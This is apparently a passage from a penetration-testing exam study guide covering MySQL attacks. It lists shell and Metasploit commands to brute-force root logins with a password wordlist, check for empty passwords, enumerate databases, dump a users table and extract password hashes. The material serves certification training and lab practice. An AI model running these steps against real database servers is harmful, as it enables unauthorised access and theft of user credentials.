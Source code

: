 **Success Criteria:**
- ✅ Correctly identify MySQL service
- ✅ Extract version information
- ✅ Confirm service accessibility

#### **Scenario 2: Authentication Bypass**
**Exam Question Type**: "Gain access to the MySQL database server"

**Solution Approach:**
```bash
# Method 1: Test common credentials
mysql -h target -u root -p
# Try passwords: (blank), root, admin, password

# Method 2: Automated brute force
use auxiliary/scanner/mysql/mysql_login
set RHOSTS target
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run

# Method 3: Test for empty passwords
nmap --script mysql-empty-password -p 3306 target
```

**Success Criteria:**
- ✅ Successfully authenticate to MySQL
- ✅ Document discovered credentials
- ✅ Confirm administrative access

#### **Scenario 3: Data Extraction**
**Exam Question Type**: "Extract sensitive information from the database"

**Solution Workflow:**
```bash
# Step 1: Database enumeration
use auxiliary/admin/mysql/mysql_enum
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run

# Step 2: Manual database exploration
use auxiliary/admin/mysql/mysql_sql
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run
# Execute: SHOW DATABASES; USE sensitive_db; SHOW TABLES; SELECT * FROM users;

# Step 3: Hash extraction for offline analysis
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run
```

**Success Criteria:**
- ✅ List all available databases
- ✅ Extract user account information
- ✅ Identify sensitive data locations
- ✅ Document password hashes

